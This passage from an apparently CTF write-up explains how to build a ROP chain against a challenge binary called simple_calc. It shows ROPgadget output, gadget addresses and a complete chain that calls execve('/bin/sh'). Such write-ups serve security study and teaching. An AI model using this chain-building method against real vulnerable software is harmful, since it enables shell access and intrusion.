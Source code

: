 In the binary there is no `/bin/sh`string (there is one in the C library but we
won't used that one here). We have to pass that string with the ROP chain. As
it will be on the stack, eventually the stack pointer `rsp` will point to it.

`execve`is the [syscall number 59][syscalls] and the [calling
convention][call_conv] tells us that the first argument must be passed in
`rdi`, the second in `rsi` and the third in `rdx`. Therefore before launching
the syscall, the registers must hold the following values:

* `RAX`: 59
* `RDI`: `RSP`
* `RSI`: 0
* `RDX`: 0

We need to find gadgets to:

* pop rax
* mov rdi, rsp
* pop rsi (there is no `xor rsi, rsi`)
* pop rdx (there is no `xor rdx, rdx`)
* syscall

[ROPgadget] is great tool to find gadgets:
{% highlight shell-session %}
$ ropgadget --file simple_calc > ropgadget.txt
$ grep ": pop rax" ropgadget.txt
[snip]
0x000000000044db34 : pop rax ; ret
[snip]
{% endhighlight %}

The gadget to `mov rdi, rsp` doesn't end with a return but with a call:
{% highlight text %}
0x0000000000492468 : mov rdi, rsp ; call r12
{% endhighlight %}

We need to store the address of the next gadget in `r12`. Fortunalely there is
a gadget to `pop r12`:
{% highlight text %}
0x0000000000400493 : pop r12 ; ret
{% endhighlight %}

Here is the overall ROP chain:
{% highlight text %}
0x000000000044db34 # pop rax ; ret
0x000000000000003b # 59
0x0000000000401c87 # pop rsi ; ret
0x0000000000000000 # 0
0x0000000000437a85 # pop rdx ; ret
0x0000000000000000 # 0
0x0000000000400493 # pop r12 ; ret
0x00000000004648e5 # syscall ; ret
0x0000000000492468 # mov rdi, rsp ; call r12
0x0068732f6e69622f # /bin/sh\0 (reversed)
{% endhighlight %}


[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
[libc_free]: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=b8a43bfb32bcd97a6ed468cb7635b4bbfef2e3a2;hb=HEAD#l2925
[syscalls]: http://blog.rchapman.org/post/36801038863/linux-system-call-table-for-x86-64
[call_conv]: https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
[fortytwo]: https://en.wikipedia.org/wiki/The_answer_to_life_the_universe_and_everything#Answer_to_the_Ultimate_Question_of_Life.2C_the_Universe.2C_and_Everything_.2842.29